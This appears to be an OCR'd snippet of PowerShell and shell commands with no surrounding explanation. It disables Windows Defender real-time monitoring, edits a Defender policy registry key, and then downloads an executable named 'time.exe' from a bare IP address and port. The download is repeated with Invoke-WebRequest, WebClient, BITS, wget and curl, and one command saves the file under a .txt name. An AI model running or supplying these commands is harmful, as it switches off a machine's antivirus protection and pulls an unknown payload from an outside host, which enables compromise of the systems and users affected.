 


New-ItemProperty -Path "HKLM:\Software\policies\microsoft\windows defender" -name disableantispyware -value 0 –Force

Set-MpPreference -DisableRealtimeMonitoring $true



$URL = "http://31.166.215.197:45005/time.exe"

$Path=”C:\Files\MyFile.txt”
Invoke-WebRequest -URI $URL -OutFile $Path
(New-Object System.Net.WebClient).DownloadFile ($URL, $Path)
Start-BitsTransfer -Source $URL -Destination $Path


wget 31.166.215.197:45005/time1.exe
curl 31.166.215.197:45005/time.exe
Invoke-WebRequest http://31.166.215.197:45005/time.exe -O time.exe
